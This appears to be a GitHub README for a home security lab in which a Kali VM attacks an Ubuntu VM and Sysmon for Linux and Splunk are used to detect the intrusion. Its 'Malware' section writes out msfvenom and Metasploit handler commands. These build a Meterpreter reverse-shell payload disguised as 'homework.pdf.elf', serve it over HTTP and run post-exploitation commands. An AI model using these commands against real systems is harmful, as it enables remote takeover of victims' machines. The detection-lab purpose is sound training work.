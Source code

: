 # 💻 Sysmon-to-Splunk: Reverse Shell Attack Detection

**Stack:** VirtualBox, Kali Linux (attacker), Ubuntu (target), Sysmon-for-Linux, Splunk, Metasploit, msfvenom, python HTTP

**Focus:** Endpoint Telemetry, SIEM Integration, and Threat Detection

**Goal:** Build and analyze a real attack scenario using Sysmon for Linux and Splunk SIEM

## 🔍 Overview

This lab simulates a **realistic endpoint compromise** in a controlled environment.  
Using **Kali Linux** as the attacker and **Ubuntu** as the target, I generated and analyzed **Sysmon telemetry** to detect malicious activity through **Splunk SIEM**.

The project bridges **red-team tactics** and **blue-team analysis**, showing how attacker actions translate into logs, and how defenders can identify those behaviors.

## 🧱 Lab Setup and Architecture

1. Install VirtualBox on your host OS.

2. Create the VMs:
   - **Ubuntu target** — install from [ISO](https://ubuntu.com/download/desktop).
   - **Kali attacker** — import the [Kali](https://www.kali.org/get-kali/#kali-platforms) VirtualBox image (or install from ISO).
   - Both VMs are in a internal network.

1. Allocate resources:
   - Set RAM and CPU for each VM depending on host resources.
   - *Example:* Kali: 4 GB RAM, 4 vCPU. Ubuntu: 4 GB RAM, 3 vCPU.

| Network Diagram                       |
| ------------------------------------- |
| ![diagram](./docs/diagram.png)        |  

## ⚙️ Documentation

### 1. Install Splunk on Ubuntu (Target)

1. Download Splunk Enterprise for Linux (from [Splunk website](https://www.splunk.com/en_us/products/splunk-enterprise.html)) on the Ubuntu VM.

2. Keep in mind that you will need internet connection to install Splunk.

3. On Ubuntu, install:
```shell
# replace splunk_package.deb with the name of your .deb file
sudo dpkg -i ./splunk_package.deb

# start splunk
sudo /opt/splunk/bin/splunk start
   ```

4. Visit the Splunk web UI from the Ubuntu machine at: http://localhost:8000

### 2. Install Sysmon on Ubuntu (Target)

1. Please visit the official [sysmonforlinux](https://github.com/microsoft/SysmonForLinux) repo for more information.

2. Register Microsoft key and feed
```
wget -q https://packages.microsoft.com/config/debian/$(. /etc/os-release && echo ${VERSION_ID%%.*})/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
```

2. Install sysmonforlinux
```
sudo apt-get update
sudo apt-get install sysmonforlinux
```

3. Update sysmon config, with (provided config)[./configs/sysmonconfig.xml], taken from [OpenSecureCo](https://github.com/OpenSecureCo/Demos/blob/main/sysmonforlinux)
```
nano /opt/config.xml
```

4. To test, see logs using:
```
sudo tail -f /var/log/syslog | sudo /opt/sysmon/sysmonLogView
```

### 3. Malware

1. Note the ip of the attacker machine (Kali)
```
ip a
```

2. Create the reverse tcp payload with msfvenom using:
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f elf -o homework.pdf.elf
```
*note: lhost is the attackeer ip, elf executable file format is used for payload.*

4. Start msfconsole and prepare the handler and run exploit
```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 192.168.20.11
exploit
```
- *note that the default payload for exploit/multi/handler is generic/shell_reverse_tcp (see below); explicitly set payload to linux/x64/meterpreter_reverse_tcp.*
![options](./docs/options.png)

5. Serve the payload with Python HTTP server
```
python3 -m http.server 9999
```

6. Install the malware on Ubuntu by visiting `192.168.20.11:9999` on a browser and downloading it from the python server. After installing:
```
chmod +x homework.pdf.elf
./homework.pdf.elf
```

7. After executing the payload, the handler on Kali should show a new Meterpreter session (see below). 
![handler](./docs/establish.png)

- In msfconsole you can interact with the Ubunut machine from the attacker machine using `shell` with the following commands:
```
shell
ip a 
user
getent group
```
- `ip a` shows network interfaces
- `user` lists users
- `getent group` retrieves group info from administrative databases

8. On the target machine, we can see that we have an established connection with the attacker machine using `sudo ss -tp`:.
```
ESTAB  0  0  192.168.20.10:34944  192.168.20.11:4444  users:((“sh”,pid=8931,fd=4),(“homework.pdf.el”,pid=8370,fd=4))
```
- *note that the peer address (2nd ip) is the attacker machines ip with the port of the handler.*
link

### 4. Telemetry
a
1. Configure Splunk to ingest sysmon entries

- On the Ubuntu machine running Splunk , navigate to $SPLUNK_HOME/etc/apps/search/local/ or the inputs.conf location. If there's no inputs.conf present, copy from the default app folder and add:
```
[monitor:///var/log/syslog]
disabled = 0
index = endpoint
sourcetype = sysmon:linux
```

- Save the file and restart:
```
sudo /opt/splunk/bin/splunk restart
```

- In Splunk web: Settings → Indexes → Add new index: endpoint (or the name you used).

- Confirm data ingestion by searching the new index: index=endpoint in the Search & Reporting app, the resuilt shoud look like:
![result](./docs/search1.png)


2. Example Splunk queries

- All events in the endpoint index:
```
index=endpoint
```

- Search for attacker IP
```
index=endpoint "192.168.20.11"
```


## 💡 Future Improvements

> 🔧 **Work in Progress** — This is an work in progress lab, and I plan to improve it in the future.

- Add Splunk dashboards or alerts for Sysmon events.

- Test Windows Sysmon vs. Linux Sysmon telemetry differences.

- Add MITRE ATT&CK mapping for detected behaviors.


## 🏁 Final Thoughts

This lab bridges offensive and defensive cybersecurity skills, and allowed me to see how a SIEM can be used to detect, analyze, and investigate real-world attack activity in a safe environment.
